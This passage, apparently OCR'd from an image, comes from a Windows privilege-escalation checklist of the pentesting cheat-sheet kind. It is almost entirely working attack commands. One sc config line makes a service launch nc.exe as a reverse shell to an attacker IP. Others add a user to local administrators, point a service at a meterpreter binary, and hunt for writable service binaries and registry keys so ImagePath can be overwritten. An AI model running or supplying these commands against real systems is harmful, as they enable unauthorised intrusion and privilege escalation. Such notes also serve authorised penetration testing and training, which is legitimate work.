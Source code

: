 		# reverse shell
		sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe <attacker-ip> 4444 -e cmd.exe"
		
		# add user to local admin group
		sc config <Service_Name> binpath= "net localgroup administrators username /add"
		
		# example using SSDPRV
		sc config SSDPSRV binpath= "C:\Documents and Settings\PEPE\meter443.exe"
		
		# then restart the service
		wmic service NAMEOFSERVICE call startservice
		net stop [service name] && net start [service name]
		```
	- [ ] DLL Hijacking / Overwrite service binary
		```powershell
		for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

		for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
		
		# do it by using sc
		sc query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt
		FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
		FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt
		```
	- [ ] Registry modify permissions
		```powershell
		reg query hklm\System\CurrentControlSet\Services /s /v imagepath #Get the binary paths of the services

		#Try to write every service with its current content (to check if you have write permissions)
		for /f %a in ('reg query hklm\system\currentcontrolset\services') do del %temp%\reg.hiv 2>nul & reg save %a %temp%\reg.hiv 2>nul && reg restore %a %temp%\reg.hiv 2>nul && echo You can modify %a

		get-acl HKLM:\System\CurrentControlSet\services\* | Format-List * | findstr /i "<Username> Users Path Everyone"

		# if Authenticated Users or NT AUTHORITY\INTERACTIVE have FullControl
		# it can be leveraged to change the binary path inside the registry
		reg add HKLM\SYSTEM\CurrentControlSet\srevices\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
		```
- [ ] Installed applications
	- [ ] DLL Hijacking for installed applications
		```powershell
		dir /a "C:\Program Files"
		dir /a "C:\Program Files (x86)"
		reg query HKEY_LOCAL_MACHINE\SOFTWARE
